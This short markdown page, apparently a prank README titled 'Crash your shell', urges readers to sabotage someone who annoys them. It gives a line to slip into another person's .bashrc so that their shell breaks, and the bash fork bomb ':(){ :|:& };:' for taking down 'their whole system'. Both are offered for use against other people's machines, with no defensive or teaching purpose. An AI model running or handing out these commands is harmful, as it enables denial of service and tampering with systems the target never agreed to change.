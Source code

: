 # Crash your shell

Is someone annoying you? Crash their shell with just a few lines of code.

## Bash
Just add this to their [`.bashrc`] [1]:
```bash
eval "$BASH_COMMAND"
```
Or even their whole system:
```bash
:(){ :|:& };:
```

---
### Notes
1. See https://github.com/dylanaraps/blag/blob/master/src/future/breaking-bash.md
